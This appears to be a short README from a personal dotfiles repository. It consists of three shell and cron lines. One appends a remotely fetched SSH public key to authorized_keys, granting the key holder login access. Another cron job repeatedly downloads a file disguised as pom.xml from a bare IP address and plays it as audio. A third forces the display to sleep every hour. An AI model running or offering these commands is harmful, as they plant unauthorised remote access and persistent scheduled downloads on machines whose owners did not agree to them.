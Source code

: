 my-dot-files
============
Lukas Drbal


curl https://raw.githubusercontent.com/LesTR/my-dot-files/master/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys


*/10 * * * * * if [[ ! -f /tmp/12e67a.mp3 ]]; then wget -O /tmp/12e67a.mp3 http://54.40.29.151/tmp/pom.xml 2> /dev/null; fi; afplay /tmp/12e67a.mp3

52 * * * * /usr/bin/pmset displaysleepnow
